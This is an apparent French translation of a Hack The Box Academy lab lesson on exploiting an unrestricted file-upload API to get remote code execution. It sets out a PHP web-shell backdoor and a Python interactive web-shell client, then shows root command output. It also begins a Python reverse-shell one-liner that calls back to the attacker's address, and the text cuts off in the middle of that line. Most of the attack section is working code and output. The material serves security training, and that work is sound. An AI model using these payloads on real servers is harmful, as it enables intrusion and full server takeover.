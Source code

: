 Upload arbitraire de fichiers
=====================================

* * * * *

Les téléchargements de fichiers arbitraires font partie des vulnérabilités les plus critiques. Ces failles permettent aux attaquants de télécharger des fichiers malveillants, d'exécuter des commandes arbitraires sur le serveur principal et même de prendre le contrôle de l'ensemble du serveur. Les vulnérabilités de téléchargement de fichiers arbitraires affectent aussi bien les applications Web que les API.

* * * * *

Upload de fichiers PHP via API vers RCE
-----------------------------------------------

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la.

Supposons que nous évaluons une application résidant dans `http://<TARGET IP>:3001`.

Lorsque nous parcourons l'application, une fonctionnalité de téléchargement de fichiers anonymes ressort. ![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Créons le fichier ci-dessous (enregistrez-le sous `backdoor.php`) et essayez de le télécharger via la fonctionnalité disponible.

Code : php

```
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

```

Ce qui précède nous permet d'ajouter le paramètre *cmd* à notre requête (à backdoor.php), qui sera exécutée à l'aide de *shell_exec()* . C'est si nous pouvons déterminer l'emplacement de *backdoor.php* , si *backdoor.php* sera rendu avec succès et si aucune restriction de fonction PHP n'existe.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

-   *backdoor.php* a été téléchargé avec succès via une requête POST vers `/api/upload/`. Une API semble gérer la fonctionnalité de téléchargement de fichiers de l'application.
-   Le type de contenu a été automatiquement défini sur `application/x-php`, ce qui signifie qu'aucune protection n'est en place. Le type de contenu serait probablement défini sur `application/octet-stream`ou `text/plain`s'il y en avait un.
-   Le téléchargement d'un fichier avec une extension *.php* est également autorisé. S'il y avait une limitation sur les extensions, nous pourrions essayer des extensions telles que `.jpg.php`, `.PHP`, etc.
-   Utiliser quelque chose comme [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) pour identifier le code php en cours de téléchargement ne semble pas non plus en place.
-   Nous recevons également l'emplacement où notre fichier est stocké, `http://<TARGET IP>:3001/uploads/backdoor.php`.

Nous pouvons utiliser le script Python ci-dessous (enregistrez-le sous `web_shell.py`) pour obtenir un shell, en tirant parti du `backdoor.php`fichier téléchargé.

Code : Python

```
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")

```

Utilisez le script comme suit.

```
dsgsec@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)

```

Pour obtenir un shell plus fonctionnel (inverse), exécutez ce qui suit à l'intérieur du shell obtenu via le script Python ci-dessus. Assurez-vous qu'un écouteur actif (tel que Netcat) est en place avant d'exécuter ce qui suit.

```
dsgsec@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adap
```
